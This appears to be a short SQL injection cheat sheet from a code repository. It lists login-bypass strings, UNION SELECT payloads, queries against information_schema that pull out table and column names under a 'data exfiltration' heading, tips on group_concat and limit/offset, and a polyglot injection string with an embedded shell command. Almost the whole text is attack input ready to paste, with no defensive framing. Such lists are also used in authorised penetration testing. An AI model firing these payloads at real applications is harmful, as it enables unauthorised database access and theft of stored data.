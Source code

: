 # basic
' or 1='1
" or 1="1


# union select
' union select 1,2,3;--+
" union select 1,2,3;-- 


# data exfiltration
' union select 1,table_name,3 from information_schema.tables;--+
" union select 1,2,column_name from information_schema.columns;--+




# Group concat
# good for joining stuff in a subquery
" union select group_concat(table_name),2,3,4,5 from information_schema.tables;--+



# limit offset
# limit 1 is good for subqueries
# offset is good for finding rows other than first row

" union select 1,2,table_name from information_schema.tables limit 1 offset 50;--+


# polyglot
"'<lol/>`ls`#--+;~//+@@ 